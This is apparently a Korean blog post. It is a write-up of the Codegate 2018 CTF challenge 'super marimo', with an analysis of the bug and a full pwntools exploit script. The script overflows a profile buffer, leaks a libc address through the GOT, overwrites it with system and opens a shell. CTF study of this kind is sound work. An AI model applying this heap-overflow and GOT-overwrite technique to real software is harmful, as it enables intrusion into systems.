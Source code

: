 ```yaml
---
layout: post
title: ! '[Codegate2018 CTF] super marimo writeup'
excerpt_separator: <!--more-->
comments: true
tags:
  - CTF
  - Write-up
---
```


올해 초 CTF에서 열심히 삽질했던 문제...지만 결국 못 풀었다. 최근 h3x0r CTF 문제들을 풀어보면서 힙 문제에 관심이 생겼는데, 갑자기 이 문제가 기억이 나서 서버 한구석에 던져져 있던걸 주섬주섬 꺼내서 풀어보았다. 그래도 그동안 공부한 성과인지 풀 수 있었다 감동 ㅠㅡㅠ

<!--more-->

## 개요

원래 대회에서는 libc도 있었던거같은데 기억 안난다.. 그냥 로컬 환경에서만 익스할 수 있게 했다.

> root@ubuntu:~/CTF/Codegate2018/SuperMarimo.d# file marimo 
>
> marimo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=45e9b4d54ca35be0defe243f0f8a4982bbac82dc, stripped

64비트 바이너리다. 문제를 분석해보면 마리모를 사고 팔 수 있는 프로그램인데, 처음에 돈이 0원이라서 마리모를 못 산다. 그런데 커맨드를 입력할 때 `show me the marimo`를 입력하면, 치트키처럼 마리모를 하나 공짜로 얻을 수 있다.

## 접근

원래는 `sell marimo` 명령이 인덱스를 검사하지 않고, 해당 영역을 해제하지 않아서 (또는 안에 있는 값이 해제된 값인지 검사하지 않아서) `number of marimo` 카운트가 음수가 될 수 있으며, 마리모 판매시에 주소값을 덮어쓰는 형식으로 GOT & PLT 영역을 덮어쓸 수 있음에 주목했었다. 그러나 값을 leak하기가 어렵고, 정확하게 해당 영역만 조작하기가 꽤 어려워서 그만뒀다.

![]({{ site.baseurl }}/images/KRater/2018-07-03-super-marimo-writeup/pic01.PNG)

그 다음, profile 수정 시에 마리모의 size (*32) 만큼 값을 써줄 수 있는데, 마리모가 시간에 따라 자라기 때문에 쓸 수 있는 값이 점점 증가하는 점에 주목하였다. 마리모는 자라서 프로필 작성을 더 크게 해줄 수 있는데, 영역이 고정되어 있어서 생기는 문제점이다. 해당 취약점을 바탕으로 익스플로잇 코드를 작성하였다.

## 익스플로잇

```python
from pwn import *

global r

PROCESS = "./marimo"
r = process(PROCESS)

def main () :
	r.recvuntil(">> ")

	show_me ("marimo1", "profile1")
	show_me ("vuln", "AAAA")

	sleep(3)

	modify (0, "A"*40 + "B"*8 + "C"*8 + p64(0x603040)*2)
	strcmp_addr = leak()
	system_addr = strcmp_addr - 0x5A1E0
	
	log.info("strcmp : " + hex(strcmp_addr))
	log.info("system : " + hex(system_addr))

	modify(1, p64(system_addr) + p64(system_addr))
	
	r.interactive() # /bin/sh

def modify (index, profile) :
	r.sendline("V")
	r.recvuntil(">> ")
	r.sendline(str(index))
	r.recvuntil(">> ")
	r.sendline("M") # [M]odify
	r.recvuntil(">> ")
	r.sendline(str(profile)) # new profile
	r.recvuntil(">> ")
	r.sendline("B") # [B]ack
	r.recvuntil(">> ")

def leak () :
	r.sendline("V")
	r.recvuntil(">> ")
	r.sendline("1")
	r.recvuntil("name : ")
	data = r.recv(6) + "\x00\x00"

	r.recvuntil(">> ")
	r.sendline("B")
	r.recvuntil(">> ")
	return u64(data)

def buy (size, name, profile) :
	r.sendline("S")
	r.recvuntil(">> ")
	r.sendline(str(size))
	r.recvuntil(">> ")
	r.sendline("P") # [P]ay
	r.recvuntil(">> ")
	r.sendline(str(name))
	r.recvuntil(">> ")
	r.sendline(str(profile))
	r.recvuntil(">> ")

def show_me (name, profile) :
	r.sendline("show me the marimo")
	r.recvuntil(">> ")
	r.sendline(name)
	r.recvuntil(">> ")
	r.sendline(profile)
	r.recvuntil(">> ")
	print ("show me done. id : " + name)

def sell (num) :
	r.sendline("S")
	r.recvuntil(">> ")
	r.sendline(str(num))
	r.recvuntil("?")
	r.sendline("S")
	r.recvuntil(">> ")
	print ("Sell done.")

if __name__ == '__main__' :
	main()

```

재밌는 문제였지만 추후에 출제자분께 여쭤보니 다른 `intended solution`이 있다고 한다.

해당 방법을 사용해서 나중에 다시 풀어봐야 겠다!